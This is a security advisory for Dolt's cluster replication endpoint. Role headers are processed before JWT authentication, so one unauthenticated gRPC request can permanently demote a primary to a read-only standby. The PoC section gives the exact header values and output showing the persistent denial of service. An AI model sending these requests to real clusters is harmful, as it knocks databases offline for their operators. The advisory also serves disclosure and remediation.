

# Dolt Cluster Replication Endpoint Processes Client-Controlled Role Headers Before JWT Authentication, Allowing Persistent Unauthenticated Primary Demotion

| Field | Value |
|---|---|
| Project | [dolthub/dolt](https://github.com/dolthub/dolt) |
| Vulnerability Type | Incorrect Order of Authentication and Authorization (CWE-288) leading to State Tampering / Denial of Service |
| Severity | Critical — CVSS 3.1 Base Score: 9.1 |
| CVSS Vector | `AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:H/A:H` |
| Affected Versions | `dolt sql-server` cluster replication mode; verified with the official release binary v2.4.2 (2026-10-06); the same interceptor ordering is present on main at commit `ce68e183` (2026-10-14) |
| Authentication | None required for the attack (the endpoint's own JWT authentication is bypassed in effect — it fires only after the damage) |

---

## Summary

When `dolt sql-server` runs with a `cluster:` configuration (replication), the remotesapi gRPC endpoint installs `serverinterceptor` (`go/libraries/doltcore/sqle/cluster/interceptors.go`). The interceptor calls `handleRequestHeaders` — which honors client-supplied `x-dolt-cluster-role` and `x-dolt-cluster-role-epoch` metadata and can execute a full role transition — **before** it calls `authenticate`, which validates the peer's JWT. An unauthenticated attacker who sends any RPC (e.g. `GetRepoMetadata`) with `x-dolt-cluster-role: primary` and an epoch larger than the server's current one triggers `roleSetter(RoleStandby, attackerEpoch)` while unauthenticated:

* the server immediately becomes a standby: every database is switched read-only, running queries and connections are killed;
* the standby role and the **attacker-chosen epoch** are persisted to the server's on-disk global config, so the demotion survives restarts;
* the epoch monotonicity check then prevents operators from promoting the node back (the legitimate epoch is smaller than the attacker's), and lower-epoch replication traffic has no effect;
* the RPC itself only then fails JWT validation and returns `Unauthenticated` — the attack needs no credentials and no response content.

## Details

`go/libraries/doltcore/sqle/cluster/interceptors.go`, unary interceptor (streaming is ordered identically):

```go
fromClusterMember := false
if md, ok := metadata.FromIncomingContext(ctx); ok {
    fromClusterMember = si.handleRequestHeaders(md)   // 1) role transition FIRST
}
if fromClusterMember {
    if err := si.authenticate(ctx); err != nil {       // 2) JWT validation SECOND
        return nil, err
    }
```

`handleRequestHeaders` acts on the raw headers with no authentication in scope:

```go
if roles[0] == string(RolePrimary) {
    if reqepoch, err := strconv.Atoi(epochs[0]); err == nil {
        ...
        } else if reqepoch > epoch {
            ...
            si.roleSetter(string(RoleStandby), reqepoch)   // persistent demotion
        }
    }
}
```

`authenticate` requires `authorization: Bearer <JWT>` validated against the configured key provider — the anonymous attack request fails here, but only after the role change has completed (`serverinterceptor.roleSetter` → `controller.setRoleAndEpoch`, which persists `sqlserver.cluster.dolt_cluster_role` and `..._role_epoch` to the global dolt config).

## PoC

Verified with the official `dolt-darwin-arm64` v2.4.2 release binary. A server was started with `bootstrap_role: primary`, `bootstrap_epoch: 0`, remotesapi on port 50152, SQL on 13307; the attacker client is a plain Go gRPC program sending `GetRepoMetadata` with the two headers and **no credentials**.

**Step 1 — baseline and negative control (no cluster headers):**

```
=== [1] baseline role before any attack ===
primary | 0 | 0
=== [2] negative control: anonymous RPC WITHOUT cluster headers ===
[*] rpc error: rpc error: code = Unauthenticated desc = unauthenticated
primary | 0 | 0        <-- role untouched
```

**Step 2 — attack: same anonymous RPC with `x-dolt-cluster-role: primary`, `x-dolt-cluster-role-epoch: 9999999999`:**

```
=== [3] ATTACK ===
[*] rpc error: rpc error: code = Unauthenticated desc = unauthenticated
standby | 9999999999 | 1     <-- demoted, attacker epoch installed, read-only
=== [4] writes now rejected (standby is read-only) ===
ERR: OperationalError: (1105, 'database server is set to read only mode')
```

Server log shows the transition happening before the authentication failure, same second:

```
level=warning msg="cluster: serverinterceptor: this server is primary at epoch 0. the server replicating to it is primary at epoch 9999999999. force transitioning to standby."
level=info    msg="incoming standby request had no authorization"
```

**Step 3 — the demotion is sticky and unrecoverable through the normal path:**

```
=== [5] lower-epoch attack has no effect (monotonicity) ===
standby | 9999999999 | 1
=== [6] operator promote attempt vs attacker-raised epoch ===
ERR: OperationalError: (1105, "Variable 'dolt_cluster_role' is a read only variable")
=== [7] restart server: demotion persisted? ===
standby | 9999999999 | 1
=== [8] persistence on disk: global dolt config after attack ===
sqlserver.cluster.dolt_cluster_role = standby
sqlserver.cluster.dolt_cluster_role_epoch = 9999999999
```

**Real-environment reproduction** (the product itself, run for this test): the official v2.4.2 `dolt sql-server` release binary in cluster mode; one unauthenticated gRPC call carrying the role headers flipped a live primary to a read-only standby at the attacker's epoch, killed its write availability, survived a restart from persisted config, and blocked SQL-level promotion.



---

## Impact

An unauthenticated network peer of the remotesapi port can, in a single request: force a production primary into read-only standby mode (all writes fail, in-flight queries and sessions are killed), pin the cluster's epoch to an arbitrary value, and make the condition persist across restarts. Because legitimate primaries cannot take over at a lower epoch, recovery requires manual config surgery on every demoted node, and the attacker can repeat the attack against any node that recovers — a durable, credential-free cluster-wide denial of service, plus integrity damage to the replication state machine itself.

### Remediation

1. In both the unary and streaming interceptors, run `authenticate(ctx)` **before** `handleRequestHeaders(md)`; reject unauthenticated requests before any state derived from client metadata is acted upon.
2. Defense in depth: only accept `x-dolt-cluster-role*` headers on connections that already presented a valid cluster JWT, and ignore them otherwise (rather than treating their mere presence as "request from a cluster replica").
3. Bound the accepted epoch range (e.g. reject epochs more than a small delta above the current one) so an unauthenticated value cannot permanently wedge `setRoleAndEpoch`'s monotonicity check, and provide a documented operator path to force-clear a poisoned epoch.
4. Add a regression test asserting that an unauthenticated request with `role=primary, epoch=<current+1>` leaves the role unchanged and returns `Unauthenticated`.
